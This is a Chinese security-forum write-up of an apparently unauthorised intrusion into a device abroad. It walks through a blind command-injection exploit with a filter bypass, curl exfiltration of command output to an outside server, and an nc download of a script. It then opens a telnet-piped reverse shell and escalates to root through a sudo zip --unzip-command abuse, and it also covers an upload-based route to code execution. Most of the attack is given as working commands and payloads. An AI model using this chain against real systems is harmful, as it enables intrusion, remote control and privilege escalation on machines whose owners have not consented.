

# 奇安信攻防社区-【Web实战】一次有趣的RCEbypass

### 【Web实战】一次有趣的RCEbypass

在对某樱花国渗透的时候发现一个RCE，经过多次测试后成功绕过限制拿到shell

在跟朋友一起渗透的时候发现个RCE

无回显，使用curl进行测试

  
大哥服务器上有个接受参数回显的脚本，启动并监听

  
成功接收到该回显

time=`curl x.x.x.x -d "c=$(id)"`

  
尝试写入测试，失败

  
尝试远程下载wget，powershell上线等方式，均失败

使用cat读取代码

  
简单说下代码，接受post的time参数，将T替换成空格，将/替换成-，然后把过滤过的参数放进SystemSetting\_setLocalTime函数当中

跟进函数，接收参数后拼接到$cmd\_date\_set中

  
然后在48行中过滤掉|，然后拼接到exec中进行命令执行，其中|符号用不了，可以使用反引号来代替拼接

所以我们现在知道了屏蔽了 / | \\ 三个符号

梳理下思路，一般利用方式因为 /的原因，所以用不了http协议，无法尝试远程下载等方式，没有权限进行写入文件，那么现在几种方式进行bypass，第一种，替换/|\\符号，比如常见的空格符$IFS替换，第二种，进行提权写入文件，第三种，想办法再挖一个其他漏洞进行组合利用，第四种，尝试在其他目录写文件执行

那么先查看有哪些命令可用

使用compgen -c没有回显，echo $PATH只返回个H，最后使用busybox进行输出测试

  
常用的思路到这卡住了，尝试使用进行读取某一个字符并输出到当前目录，但发现该方法也无效，没有生成成功output.txt

dd if=1 bs=1 skip=9 count=1 status=none of=output.txt

  
继续想办法，虽然限制了/不能进行 cd ../..等，但是正常的cd ..是可以使用的

使用命令 cd ..; cd ..; cd ..; cd ..; cd tmp; nc x.x.x.x 81 > 1.sh

发现是可以成功的

  
经过测试，成功步骤如下

以下简称服务端，其中被控端为目标设备

1 服务端启用nc监听，并在被控端中写入命令

被控端：cd ..; cd ..; cd ..; cd ..; cd tmp; nc x.x.x.x 81 > 1.sh

服务端：sudo nc -lvvnp 85

2 服务端写命令

telnet x.x.x.x 82 | /bin/sh | telnet x.x.x.x 83

  
回车后打开burp

3 被控端写命令

  
time=`curl x.x.x.x -d "c=$(cd ..; cd ..; cd ..; cd ..; cd tmp; nc  x.x.x.x 85 > 1.sh)"`

4 发包，发现成功写入1.sh

  
5 监听82,83端口

  
并发包

time=`cd ..; cd ..; cd ..; cd ..; cd tmp;sh 1.sh`

  
6 至此成功拿到shell

  
7 进行提权

其中/etc/sudoers 设置了nobody可以使用sudo不需要输入密码的命令

  
又因为/usr/bin/zip 有一个参数--unzip-command可以执行命令

所以使用以下命令就可以直接进行提权

sudo /usr/bin/zip 1aca.zip /etc/passwd -T --unzip-command="sh -c /bin/sh"

  
拿到root权限

第二种方法，根据文件代码，发现一个上传点如下

  
其中路径为/svr/www，没有到网站目录/www/，那么利用方法就是上传一个文件，在使用rce进行执行拿到shell，在34行有个简单的判断是否为zip格式文件，但是并没有限制后缀名等条件

简单写个poc

  
其中写入的内容如下

sudo /usr/bin/zip 1aca.zip /etc/syslog.conf -T --unzip-command="sh -c 'id > /tmp/test.txt'"

  
上传成功后跟之前的利用思路一样，跨目录进行读取

  
圆满成功！感谢@昭通早行网络科技有限公司的各位师傅不吝赐教！！！

文章有错误请联系我

微信 zacaq999
